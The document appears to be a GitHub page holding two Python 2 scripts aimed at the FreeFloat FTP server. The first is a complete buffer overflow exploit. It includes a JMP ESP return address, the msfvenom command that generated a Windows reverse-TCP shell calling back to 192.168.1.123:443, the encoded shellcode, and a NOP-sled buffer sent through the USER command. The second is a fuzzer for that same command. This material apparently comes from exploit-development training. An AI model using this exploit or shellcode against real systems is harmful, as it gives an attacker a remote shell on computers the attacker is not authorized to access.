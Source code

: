 ### freefloat-ftp.py

    #!/usr/bin/python

    import socket

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    # 774699DB   FFE4             JMP ESP

    # bad characters \x00\x0a\x0d

    # msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.123 LPORT=443 -f c EXITFUNC=thread -e x86/shikata_ga_nai -b "\x00\x0a\x0d" -a x86 --platform windows

    shellcode=("\xda\xd9\xd9\x74\x24\xf4\x58\x2b\xc9\xbd\x3a\x84\xb7\xdf\xb1"
    "\x52\x31\x68\x17\x83\xc0\x04\x03\x52\x97\x55\x2a\x5e\x7f\x1b"
    "\xd5\x9e\x80\x7c\x5f\x7b\xb1\xbc\x3b\x08\xe2\x0c\x4f\x5c\x0f"
    "\xe6\x1d\x74\x84\x8a\x89\x7b\x2d\x20\xec\xb2\xae\x19\xcc\xd5"
    "\x2c\x60\x01\x35\x0c\xab\x54\x34\x49\xd6\x95\x64\x02\x9c\x08"
    "\x98\x27\xe8\x90\x13\x7b\xfc\x90\xc0\xcc\xff\xb1\x57\x46\xa6"
    "\x11\x56\x8b\xd2\x1b\x40\xc8\xdf\xd2\xfb\x3a\xab\xe4\x2d\x73"
    "\x54\x4a\x10\xbb\xa7\x92\x55\x7c\x58\xe1\xaf\x7e\xe5\xf2\x74"
    "\xfc\x31\x76\x6e\xa6\xb2\x20\x4a\x56\x16\xb6\x19\x54\xd3\xbc"
    "\x45\x79\xe2\x11\xfe\x85\x6f\x94\xd0\x0f\x2b\xb3\xf4\x54\xef"
    "\xda\xad\x30\x5e\xe2\xad\x9a\x3f\x46\xa6\x37\x2b\xfb\xe5\x5f"
    "\x98\x36\x15\xa0\xb6\x41\x66\x92\x19\xfa\xe0\x9e\xd2\x24\xf7"
    "\xe1\xc8\x91\x67\x1c\xf3\xe1\xae\xdb\xa7\xb1\xd8\xca\xc7\x59"
    "\x18\xf2\x1d\xcd\x48\x5c\xce\xae\x38\x1c\xbe\x46\x52\x93\xe1"
    "\x77\x5d\x79\x8a\x12\xa4\xea\x75\x4a\xa7\x93\x1d\x89\xa7\x62"
    "\x65\x04\x41\x0e\x89\x41\xda\xa7\x30\xc8\x90\x56\xbc\xc6\xdd"
    "\x59\x36\xe5\x22\x17\xbf\x80\x30\xc0\x4f\xdf\x6a\x47\x4f\xf5"
    "\x02\x0b\xc2\x92\xd2\x42\xff\x0c\x85\x03\x31\x45\x43\xbe\x68"
    "\xff\x71\x43\xec\x38\x31\x98\xcd\xc7\xb8\x6d\x69\xec\xaa\xab"
    "\x72\xa8\x9e\x63\x25\x66\x48\xc2\x9f\xc8\x22\x9c\x4c\x83\xa2"
    "\x59\xbf\x14\xb4\x65\xea\xe2\x58\xd7\x43\xb3\x67\xd8\x03\x33"
    "\x10\x04\xb4\xbc\xcb\x8c\xd4\x5e\xd9\xf8\x7c\xc7\x88\x40\xe1"
    "\xf8\x67\x86\x1c\x7b\x8d\x77\xdb\x63\xe4\x72\xa7\x23\x15\x0f"
    "\xb8\xc1\x19\xbc\xb9\xc3")

    buffer = "A" * 230 + "\xdb\x99\x46\x77" + "\x90" * 20 + shellcode + "C" * (800-230-351-16)

    try:
        print "\nSending evil buffer..."
        s.connect(("192.168.1.131", 21))
        s.recv(1024)
        s.send('USER ' + buffer + '\r\n')
        data = s.recv(1024)
        print "\nDone!."
    except:
        print "Could not connect to FTP!"

### ftp-user-fuzz.py

    #!/usr/bin/python

    import socket



    buffer = ["A"]
    counter=100

    while len(buffer) < 30:
        buffer.append("A"*counter)
        counter=counter+200

    for string in buffer:
        print "Fuzzing USER with %s bytes" % len(string)
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect = s.connect(("192.168.1.131", 21))
        s.recv(1024)
        s.send('USER ' + string + '\r\n')
        s.send('QUIT\r\n')
        s.close()